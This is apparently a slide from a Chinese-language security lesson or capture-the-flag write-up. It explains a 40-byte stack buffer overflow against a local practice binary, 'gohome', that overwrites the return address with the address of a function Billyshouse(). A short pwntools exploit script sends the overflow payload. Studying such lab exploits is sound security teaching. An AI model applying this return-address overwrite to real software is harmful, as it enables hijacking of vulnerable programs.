

# 攻擊流程
利用程式漏洞來進行buffer overflow總共40個byte
Var_20h
0x20
0x8
Save rdp
Retunr address

將return address寫入成Billyshouse()的記憶體位置Billyshouse()記憶體位置 = 0x4006c6
from pwn import *

r = process('./gohome')
r.sendlineafter("?",b"A"*40 + p64(0x4006c6))
r.interactive()